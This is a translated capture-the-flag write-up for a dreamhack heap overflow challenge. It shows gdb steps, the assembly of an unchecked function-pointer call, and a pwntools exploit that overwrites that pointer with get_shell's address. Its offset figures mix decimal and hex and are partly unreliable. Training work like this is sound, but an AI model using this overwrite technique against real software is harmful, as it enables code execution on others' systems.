


# dreamhack.io: basic_heap_overflow

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224359345726). Translated and reformatted in English.

It seems to be a heap overflow problem. First, let's get the get_shell address first. If you look at checksec, it says no pie, so the address of the get_shell function is fixed.

gdb ./basic_heap_overflow

(gdb) p get_shell

If you do this, you can see that the address of get_shell is 0x804867b.

Next, we need to find the offset for overflow. Considering that the heap allocation size is 20, the offset is 28 bytes. This is because a chunk of glibc malloc has a header of prev_size(4B) + size(4B) = 8 bytes. So, the total required chunk size = 0x20 (request) + 0x8 (header) = 0x28.

Then why does covering another chunk, i.e. over chunk, with the address of get_shell result in calling get_shell?

Since over->table() is called without any verification, if you write the address of get_shell in its place, main() executes the function as is.

0x0804870f <+98>: mov -0xc(%ebp),%eax ; eax = over
 0x08048712 <+101>: mov (%eax),%eax ; eax = over->table (read once again)
 0x08048714 <+103>: call *%eax ; ★ Just jump to the “value” in eax

If you look at the assembly language of this code with gdb, you can see more accurately how it is executed. So the exploit code is:

from pwn import *

context.arch = 'i386'

GET_SHELL = 0x0804867b
OFFSET = 0x28 # Recommended to recheck actual measurements with gdb

payload = b'A' * OFFSET # Fill ptr buffer (0x20) + next chunk header (0x8)
payload += p32(GET_SHELL) # Overwrite get_shell address in place of over->table

io = remote('host3.dreamhack.games', 21120) # Run it yourself
io.sendline(payload)
io. interactive()

If you spin this, you get a flag!
